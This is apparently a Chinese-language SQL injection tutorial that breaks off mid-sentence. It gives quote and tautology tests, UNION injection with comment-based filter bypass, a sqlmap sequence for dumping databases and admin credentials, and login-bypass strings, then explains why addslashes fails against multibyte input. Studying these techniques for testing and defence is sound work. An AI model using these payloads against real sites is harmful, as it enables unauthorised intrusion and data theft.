 
1、先试试引号测试：
`输入param ： 1'`
select * from tables where id = '1'';
2、试试敏感词：
`输入param ：' or 1='1`
select * from tables where id = '' or 1='1';
经过测试,敏感词'and'被过滤了.
3、通过union关键词猜测表名
union就是联合查询，sql语句 union sql语句，就是执行两条sql语句的意思。我们通过union语句来构造自己的sql语句。
`输入param ：' union select 1 or ''='`
select * from tables where id = '' union select 1 or ''='';
>* 注意：最后的where ''=' 是为了消除原始语句的尾'
结果出错，我们思考，是不是空格被过滤了。我们使用，/**/来替代空格。
/**/是注释，再sql语句中会将其转化为空格，防止空格被过滤。
`输入param ：'/**/union/**/select/**/1/**/or/**/''='`
猜测表名
利用sqlmap爆表
获取网址管理员后台密码，获取数据库敏感信息

1.sqlmap -u "                "    查看操作系统信息（只要第一步全选y）
2.sqlmap -u "http://....?id=1"   --bds              爆库
3.sqlmap -u "                "   -D 库名 --tables   爆表
4.sqlmap -u "                "   -D 库名 -T 表名 --columns   爆列
5.sqlmap -u "                "   -D 库名 -T 表名 -T 列名 --dump    爆数据


sql绕过
通过特定参数绕过验证直接进入后台 
admin' and 1=1 #
xxxxx
或万能密码
'or'1'='1
'or'1'='1

虽然国内很多PHP程序员仍在依靠addslashes防止SQL注入，还是建议大家加强中文防止SQL注入的检查。addslashes的问题在于黑客可以用0xbf27来代替单引号，而addslashes只是将0xbf27修改为0xbf5c27，成为一个有效的多字节字符，其中的0xbf5c仍会被看作是单引号，所以addslashes无法成功拦截。
    当然addslashes也不是毫无用处，它是用于单字节字符串的处理，多字节字符还是用mysql_real_escape_string吧。
    另外对于php手册中get_magic_quotes_gpc的举例：
if (!get_magic_quotes_gpc()) {
$lastname = addslashes($_POST[‘lastname’]);
} else {
$lastname = $_POST[‘lastname’];
}

最好对magic_quotes_gpc已经开放的情况下，还是对$_POST[’lastname’]进行检查一下。
再说下mysql_real_escape_string和mysql_escape_string这2个函数的区别：
mysql_real_escape_string 必须在(PHP 4 >= 4.3.0, PHP 5)的情况下才能使用。否则只能用 mysql_escape_string ，两者的区别是：mysql_real_escape_string 考虑到连接的
当前字符集，而mysql_escape_string 不考虑。
总结一下：
* addslashes() 是强行加\；
* mysql_real_escape_string()  会判断字符集，但是对PHP版本有要求；
* mysql_escape_string不考虑连接的当前字符集。
在PHP编码的时候，如果考虑到一些比较基本的安全问题，首先一点：
1. 初始化你的变量
为什么这么说呢？我们看下面的代码：
PHP代码   
  